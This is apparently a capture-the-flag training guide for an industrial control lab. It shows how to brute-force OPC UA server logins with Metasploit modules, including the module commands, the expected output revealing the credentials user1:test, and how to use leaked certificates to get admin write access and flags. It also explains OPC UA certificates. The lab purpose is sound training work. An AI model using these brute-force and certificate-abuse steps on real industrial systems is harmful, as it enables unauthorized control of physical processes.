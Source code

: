 # 🏭 OPC UA Security & Attack Guide

## 📋 Overview
An OPC UA client is a software application that connects to an OPC UA server to read, write, and monitor data within industrial systems.
This client can interact with various devices and systems, enabling seamless communication and data exchange across different platforms and manufacturers.
OPC UA clients are integral to industrial automation, as they facilitate real-time data access and control, which is essential for efficient and safe operations.

In this example, we aim to perform an attack on an OPC UA system.

## 🛠️ Setup: OPC UA Client
To proceed, install the opcua-client, which we will use for interaction following a successful attack.

```sh
pip3 install opcua-client
```

Remove configuration file for the OpcUaClient if there is any:
```sh
rm -rf .config/FreeOpcUa/OpcUaClient.conf
```

## 🔗 Simple Communication
```
+------------------+       OPC UA Protocol     +------------------+
|                  | <------------------------>|                  |
|  OPC UA Client   |                           |  OPC UA Server   |
|   opcua-client   |                           |      CybICS      |
+------------------+                           +------------------+
```

## 🕵️‍♂️ Brute Forcing User Password
Brute forcing an OPC UA system involves repeatedly attempting to guess the username and password until the correct combination is found.
This type of attack can give an unauthorized user access to sensitive industrial control systems, allowing them to manipulate device settings, disrupt operations, or steal critical data.
Due to the automated nature of brute force attacks, they can quickly compromise systems that lack strong password policies or account lockout mechanisms.

One way to log in to the OPC UA Server from the OPC UA Client is to use a username and a password. The objective of this part of the training is to reveal a valid username with the corresponding password. To do this, try to crack a user's authentication password using a brute force attack. Use the Metasploit module for OPC UA:   
https://github.com/COMSYS/msf-opcua/tree/master

To set up of the scanner module, follow the *Instructions* in the README.md of the link. It's necessary to install the opcua-module via pip: `pip3 install opcua`. Metasploit is installed in Kali by default. Add the `modules` directory found in this repository to the `modules` directory of Metasploit. This is located under the path `~/.msf4/modules`.   

Then use *opcua_hello* to verify that an OPC UA Server is running on an open port by following step 2 of the *Typical Workflow* described.   
If this is successful, follow step 4 and use *opcua_login* to brute force credentials for OPC UA Server instances. As input credential the input file, *credentials.txt* located in this folder should be used.   
(hints: IP 10.0.0.1, PORT 4840, FILE CybICS/training/opcua/credentials.txt)

In the case of a successful brute force attack, you should see the username and password labeled *success* as output. This procedure can also be traced in Wireshark and the usernames and passwords used in the attack can be read out in plaintext. 

## 🎯 Find the User Flag
The flag has the format `CybICS(flag)`.

**💡 Hint**: The flag is readable on the OPC UA system of the user, which you need to brute force
<details>
  <summary><strong><span style="color:orange;font-weight: 900">🔍 Solution</span></strong></summary>

  Check if connection to OPC UA works with:
  ```
  msf6 > use auxiliary/scanner/opcua/opcua_hello
  msf6 auxiliary(scanner/opcua/opcua_hello) > set rhosts 10.0.0.1
  msf6 auxiliary(scanner/opcua/opcua_hello) > set rport 4840
  msf6 auxiliary(scanner/opcua/opcua_hello) > run
  ```

  Expected outcome:
  ```
  [*] Running for 10.0.0.1...
  [+] 10.0.0.1:4840 - Success
  [*] Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  ```

  Use `opcua_login` to bruteforce login:
  ```
  msf6 > use auxiliary/scanner/opcua/opcua_login
  msf6 auxiliary(scanner/opcua/opcua_login) > set rhosts 10.0.0.1
  msf6 auxiliary(scanner/opcua/opcua_login) > set port 4840
  msf6 auxiliary(scanner/opcua/opcua_login) > set userpass file:<CybICS_root_Folder>/CybICS/training/opcua/credentials.txt
  ```

  Expected outcome:
  ```
  [*] Running for 10.0.0.1...
  [*] 10.0.0.1:4840 - Valid OPC UA response, starting analysis
  ...
  [+] 10.0.0.1:4840 - [101/132] - user1:test - Success
  ...
  ```

  Username: user1
  Passwort: test
  
  <div style="color:orange;font-weight: 900">
    🚩 Flag: CybICS(OPC-UA)
  </div>
  ![Flag opcua](doc/opcua_user.png)
</details>

## 🛡️ Getting an Overview of the Security Configuration
Use the metasploit module `auxiliary/scanner/opcua/opcua_server_config` for this investigation

<details>
  <summary><strong><span style="color:orange;font-weight: 900">🔍 Solution</span></strong></summary>
  
  ```
  msf6 > use auxiliary/scanner/opcua/opcua_server_config
  msf6 auxiliary(scanner/opcua/opcua_server_config) > set rhosts 10.0.0.1
  msf6 auxiliary(scanner/opcua/opcua_server_config) > set rport 4840
  msf6 auxiliary(scanner/opcua/opcua_server_config) > set username user1
  msf6 auxiliary(scanner/opcua/opcua_server_config) > set password test
  msf6 auxiliary(scanner/opcua/opcua_server_config) > set authentication Username
  msf6 auxiliary(scanner/opcua/opcua_server_config) > run
  ```
</details>

## 🛡️ Getting Admin Access
Previously, you had read-only access to the variables, which meant you could view but not modify them.
The next step is to obtain admin access to the OPC UA device.
This will allow you to change the variables and acquire the admin flag.
From previous investigation, you found certificates used for the OPC-UA communication under `CybICS/software/opcua/certificates/trusted`.
Use the leaked certificates to authenticated to the OPC-UA system.

### 🔐 Certificates in OPC UA
Certificates in OPC UA (Open Platform Communications Unified Architecture) are crucial for ensuring secure and trusted communication between clients and servers. OPC UA is designed with robust security features to protect data integrity, confidentiality, and authentication, and certificates play a key role in implementing these features.

#### 📝 Purpose of Certificates
- **Authentication**: Certificates authenticate the identities of OPC UA clients and servers. They verify that each party in a communication session is who they claim to be, helping to prevent unauthorized access and man-in-the-middle attacks.
- **Encryption**: Certificates enable encryption of data transmitted over OPC UA networks. This ensures that sensitive information is protected from eavesdropping and tampering by encrypting the communication channels between clients and servers.
- **Integrity**: Certificates help ensure data integrity by allowing both parties to validate that the data has not been altered during transmission. This is crucial for maintaining the reliability and accuracy of the information exchanged.

#### 🏷️ Types of Certificates
- **Application Instance Certificates**: These certificates are issued to individual OPC UA applications or devices. They help in uniquely identifying and authenticating each application instance within the OPC UA network.
- **Trust List Certificates**: OPC UA systems use trust lists to manage and verify certificates. Trust lists contain the certificates of trusted entities, such as clients and servers, and are used to establish trust relationships between them.
- **Self-Signed Certificates**: In some cases, OPC UA systems may use self-signed certificates. These are certificates signed by the entity itself rather than by a third-party certificate authority (CA). While self-signed certificates are useful for internal testing or development, they are typically less trusted than certificates issued by recognized CAs.
- **CA-Signed Certificates**: For more secure deployments, OPC UA systems often use certificates signed by a Certificate Authority (CA). CAs are trusted organizations that issue certificates after verifying the identities of the entities requesting them. CA-signed certificates are generally considered more reliable and secure.

#### 🛡️ Certificate Management
- **Issuance**: Certificates are issued either by a trusted CA or through internal mechanisms within an organization. The issuance process involves generating a certificate signing request (CSR), verifying the requester's identity, and issuing the certificate.
- **Revocation**: If a certificate is compromised or no longer needed, it should be revoked. Certificate revocation lists (CRLs) or online certificate status protocols (OCSP) are used to manage and communicate revoked certificates.
- **Renewal**: Certificates have expiration dates and need to be renewed periodically. Renewal ensures continued security and compliance with best practices.
- **Storage**: Certificates must be securely stored to prevent unauthorized access or tampering. OPC UA systems typically use secure storage mechanisms to protect certificates and their associated private keys.

#### ⚙️ Implementation in OPC UA
- **Security Policies**: OPC UA supports various security policies that define how certificates are used for encryption, signing, and authentication. These policies help tailor the security approach to meet specific requirements and use cases.
- **Key Pair Generation**: OPC UA applications generate and use asymmetric key pairs (public and private keys) in conjunction with certificates. The public key is included in the certificate, while the private key remains confidential.
- **Configuration**: OPC UA clients and servers must be properly configured to use certificates. This includes setting up trust lists, managing certificate expirations, and ensuring that all parties are using compatible security settings.

#### 📝 Summary
Certificates in OPC UA are essential for establishing secure, authenticated, and encrypted communication channels in industrial environments. They play a vital role in protecting data integrity, confidentiality, and authenticity. Effective management of certificates, including their issuance, storage, revocation, and renewal, is crucial for maintaining a secure OPC UA network and ensuring reliable operation of industrial control systems.

<details>
  <summary><strong><span style="color:orange;font-weight: 900">🔍 Solution</span></strong></summary>
  Use opcua-client and configure on `Connect option` the usage of the certificate.
  ```
  opcua-client
  ```

  Now you can change the variable `Set > 0 to obtain flag!` to a value bigger than zero and access the variable for the admin flag `adminFLAG`
  
  <div style="color:orange;font-weight: 900">
    🚩 Flag: CybICS(OPC-UA-$ADMIN)
  </div>
  ![Flag opcua](doc/opcua_admin.png)
</details>